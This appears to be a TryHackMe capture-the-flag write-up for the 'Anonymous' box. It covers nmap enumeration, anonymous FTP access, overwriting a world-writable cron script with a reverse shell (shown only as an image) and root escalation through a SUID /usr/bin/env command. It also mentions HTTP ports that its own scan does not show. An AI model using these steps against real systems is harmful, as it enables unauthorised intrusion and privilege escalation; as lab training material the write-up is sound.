 # THM - Anonymous

#### Ip: 10.10.2.68
#### Name: Anonymous
#### Rating: Medium

----------------------------------------------------------------------

![anonymous.png](../assets/anonymous_assets/anonymous.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.68 -sC -sV                    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 12:46 CDT
Warning: 10.10.2.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.2.68
Host is up (0.28s latency).
Not shown: 63512 closed tcp ports (reset), 2019 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.6.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-27T17:47:24
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-09-27T17:47:24+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.28 seconds
```

The first things that jump out at me here are that there is anonymous access to the FTP server enabled, and also that there are open HTTP ports.

Lets check out FTP first.

Looks like there are 3 files in a directory called `scripts`, lets bring these back for examination using `mget *`:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ ftp 10.10.2.68                           
Connected to 10.10.2.68.
220 NamelessOne's FTP Server!
Name (10.10.2.68:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||57356|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||46328|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          989 Sep 27 17:49 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> mget *
mget clean.sh [anpqy?]? y
229 Entering Extended Passive Mode (|||36906|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |********************************************************************************|   314        2.99 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (1.46 KiB/s)
mget removed_files.log [anpqy?]? y
229 Entering Extended Passive Mode (|||16050|)
150 Opening BINARY mode data connection for removed_files.log (989 bytes).
100% |********************************************************************************|   989        6.33 MiB/s    00:00 ETA
226 Transfer complete.
989 bytes received in 00:00 (3.17 KiB/s)
mget to_do.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||32003|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |********************************************************************************|    68        1.04 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.16 KiB/s)
ftp> bye
221 Goodbye.
```

Looking at the files:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

Looks like the cleanup script may be running as a cronjob?

Lets look at the script itself:

![cleanup.png](../assets/anonymous_assets/cleanup.png)

Yeah looks like the script simply removes files and if there is nothing to remove echoes "nothing to delete" to the log file.

### Exploitation

Lets try modifying the cleanup.sh script to execute a reverse shell when run. We can add a reverse shell one-liner to the end of the script:

![shell.png](../assets/anonymous_assets/shell.png)

Saving the file and logging back into FTP we can usee the `put` command to overwrite cleanup.sh with our reverse shell:

![put.png](../assets/anonymous_assets/put.png)

Nice, that worked! 

Now that we are on the box we can grab the user.txt flag:

![user_flag.png](../assets/anonymous_assets/user_flag.png)

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help enumerate a privilege escalation vector:

![transfer.png](../assets/anonymous_assets/transfer.png)

LinPEAS finds that `/usr/bin/env` has the SUID bit set. 

![env.png](../assets/anonymous_assets/env.png)

Lets head over to https://gtfobins.github.io/gtfobins/env/ for the command we'll need.

![gtfo.png](../assets/anonymous_assets/gtfo.png)

Lets give it a shot:

```text
namelessone@anonymous:/tmp$ cd /usr/bin
namelessone@anonymous:/usr/bin$ ./env /bin/sh -p
# whoami
root
# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Nice! All we need to do now is grab the root.txt flag:

![root_flag.png](../assets/anonymous_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------

